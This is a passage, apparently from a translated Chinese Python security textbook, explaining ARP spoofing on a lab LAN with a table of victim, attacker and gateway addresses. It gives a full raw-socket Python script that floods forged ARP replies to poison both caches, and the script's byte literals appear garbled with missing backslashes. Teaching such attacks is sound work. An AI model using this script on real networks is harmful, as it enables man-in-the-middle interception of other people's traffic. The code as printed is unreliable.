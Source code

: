 ARP 缓存

ARP 欺骗，也称为 ARP 缓存中毒，是一种攻击类型，攻击者通过改变受害者机器的 MAC 地址，在网关的 ARP 缓存中，以及改变网关的 MAC 地址，在受害者机器的 ARP 缓存中。这种技术用于攻击局域网。攻击者可以在局域网上嗅探数据帧。在 ARP 欺骗中，攻击者向网关和受害者发送虚假回复。目的是将攻击者的 MAC 地址与另一个主机的 IP 地址（如默认网关）关联起来。ARP 欺骗用于主动嗅探。

现在，我们将使用一个示例来演示 ARP 欺骗。

网络中所有机器的 IP 地址和 MAC 地址如下：

| **机器名称** | **IP 地址** | **MAC 地址** |
| --- | --- | --- |
| Windows XP（受害者） | `192.168.0.11` | `00:0C:29:2E:84:7A` |
| Linux（攻击者） | `192.168.0.10` | `00:0C:29:4F:8E:35` |
| Windows 7（网关） | `192.168.0.1` | `00:50:56:C0:00:08` |

让我们来看一下下面的图中显示的 ARP 协议头部：

！[](img/3021d565-f923-4660-880d-3016357b854d.png)

ARP 头部

让我们逐行查看代码来实现 ARP 欺骗并讨论它：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x00x0cx29x4fx8ex35'
victmac ='x00x0Cx29x2Ex84x7A'

gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```
